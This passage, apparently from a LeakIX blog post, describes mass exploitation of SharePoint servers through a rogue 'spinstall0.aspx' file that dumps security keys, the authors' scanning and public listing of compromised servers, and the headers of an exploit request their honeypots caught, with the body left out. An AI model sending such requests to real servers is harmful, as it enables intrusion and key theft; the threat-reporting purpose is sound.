 At that moment, `spinstall0.aspx` was of particular interest, the massive
exploitation going on was basically installing a rogue file meant to dump
SharePoint's security keys, which can be used later to take control of the
server, even after patching.

As we woke up on the Monday morning, we knew what to do, fire-up our scanner and
start indexing which instance have been compromised.

We decided to start sharing the list of compromised servers with the community.

While believe in responsible disclosure, we also believe in transparence, for
organizations and institutions that have been compromised, hence the IX part of
the Leak-IX - OG's will know it's not a 9, but let's not diverge.

Oh yeah, also our honeypots caught this, which got people overexcited for some
reason:

```http request
POST /_layouts/15/ToolPane.aspx?DisplayMode=Edit&a=/ToolPane.aspx HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Content-Length: 7699
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Referer: /_layouts/SignOut.aspx
Connection: close

```